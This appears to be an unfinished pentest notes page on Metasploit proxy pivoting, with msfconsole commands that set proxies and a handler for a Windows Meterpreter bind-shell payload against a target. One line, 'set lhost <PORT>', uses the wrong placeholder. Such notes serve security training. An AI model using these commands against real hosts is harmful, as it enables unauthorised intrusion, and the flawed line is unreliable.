 # Metasploit

Search Tag(s): #post-exploitation #pivot #socks-proxy #metasploit-framework

TODO: Fill this info

Metasploit has a feature to use **SOCKS proxies** to laterally hop the network. These are the type of proxies are available:

1. SOCKS4
2. SOCKS4A
3. SOCKS5
4. HTTP
5. HTTPS

- Reverse Shell

## Bind Shell

```
msf > setg Proxies socks4a:<remote_IP>:<port>,http:<remote_IP>:<port>

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp

msf exploit(multi/handler) > set lhost <PORT>

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > exploit
```